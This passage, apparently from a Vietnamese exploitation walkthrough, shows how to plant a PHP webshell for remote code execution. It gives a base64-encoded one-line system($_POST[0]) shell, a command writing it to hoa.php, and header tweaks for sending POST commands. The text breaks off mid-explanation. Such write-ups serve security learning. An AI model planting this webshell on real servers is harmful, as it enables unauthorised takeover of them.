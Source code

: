 ![Untitled](img/Untitled%208.png)

Vậy là xong! Bây giờ chúng ta sẽ tạo một webshell chứ code php để RCE server, vì để tiện và thao tác dễ dàng nên chúng ta sẽ sử dụng giao thức POST.
```php
<?php 
// Base64 encoded PHP shell
echo base64_decode('PD9waHAgc3lzdGVtKCRfUE9TVFswXSk7ID8+');
?>
```

Câu lệnh để tạo file shell lúc này sẽ là: `echo base64_decode('PD9waHAgc3lzdGVtKCRfUE9TVFswXSk7ID8+') > hoa.php`

![Untitled](img/Untitled%209.png)

Chúng ta cần chú ý rằng sau khi chỉnh lại webshell với phương thức `POST` thì tại ở tham số nên dùng số vì khi gọi nó ra thì nó sẽ không hiện `Use of undefined constant s - assumed 's' (this will throw an Error in a future version of PHP) in` . Và để thực hiện được `POST` với tham số cần sửa lại một chút ở HTTP Header ở phần `Content-Type` sử nó lại thành giá trị `Content-Type: application/x-www-form-urlencoded` , vì sao cần sửa `Content-Type` với giá trị trên:
